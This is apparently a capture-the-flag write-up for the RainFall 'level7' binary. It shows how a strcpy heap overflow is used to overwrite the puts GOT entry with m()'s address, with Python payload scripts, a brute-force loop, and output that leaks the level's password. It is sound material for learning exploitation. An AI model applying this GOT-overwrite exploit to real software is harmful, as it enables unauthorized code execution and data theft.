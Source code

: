LEVEL_7:
# 📚 Exploiting `level7` – overwrite the function pointer

# Heap overflow
What's happening in the code

This program appears to take two command-line arguments, stores them in malloced memory, and copies them using strcpy():
```
strcpy((char *)puVar1[1], *(char **)(param_2 + 4));  // argv[1]
strcpy((char *)puVar3[1], *(char **)(param_2 + 8));  // argv[2]
```
Then it reads a secret file into a global variable c:
```
fgets(c, 0x44, __stream);  // Read password into c
puts('~~')
```
The goal is to somehow call the m() function, which prints c, thus leaking the password.
```
printf("%s - %d\n", c, time(0));
```
So the input is directly copied into malloc'd memory, with no length checking. This is a classic heap-based *buffer overflow*.

## How to exploit it
### overwriting the GOT entry for puts(), which the program does definitely call right after reading the password.
After reading the secret into c, main() does:
If you overwrite the GOT slot for puts with the address of m, then:
```
puts("~~");
```
becomes effectively:
```
m("~~", /*garbage*/, /*garbage*/, /*garbage*/, /*garbage*/);
```
## Find the puts@GOT address
```
level7@RainFall:~$ readelf -r ./level7 | grep ' R_386_JUMP_SLOT.*puts'
08049928  00000607 R_386_JUMP_SLOT   00000000   puts
```
## Find the address of m()
```
gdb ./level7
(gdb) p m
$1 = {<text variable, no debug info>} 0x80484f4 <m>

```

## Two-Stage Heap Overflow → GOT Overwrite
### Stage 1: Overflow Chunk B to point puVar3[1] at puts@GOT
```
#!/usr/bin/env python2
import sys
from struct import pack

if len(sys.argv) != 3:
    sys.stderr.write("Usage: %s <pad_len> <got_addr_hex>\n" % sys.argv[0])
    sys.exit(1)

pad_len = int(sys.argv[1])
got_addr = int(sys.argv[2], 16)

payload  = b"A" * pad_len
payload += pack("<I", got_addr)
sys.stdout.write(payload)
```
### stage2: Overflow Chunk D to write m() into puts@GOT
```
#!/usr/bin/env python2
import sys
from struct import pack

m_addr = 0x080484f4
sys.stdout.write(pack("<I", m_addr) + "\x00")
```
### We’ll then make a simple bash loop to try pad values from 8 up to, say, 20.
```
for pad in $(seq 8 20); do
  echo "=== Trying pad = $pad ==="
  ./level7 "$(./stage1.py $pad 0x08049928)" "$(./stage2.py)"
  echo
done
```
after executing it:
=== Trying pad = 8 ===
~~

=== Trying pad = 9 ===
~~
...

=== Trying pad = 18 ===
Segmentation fault (core dumped)

=== Trying pad = 19 ===
Segmentation fault (core dumped)

=== Trying pad = 20 ===
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1754601545
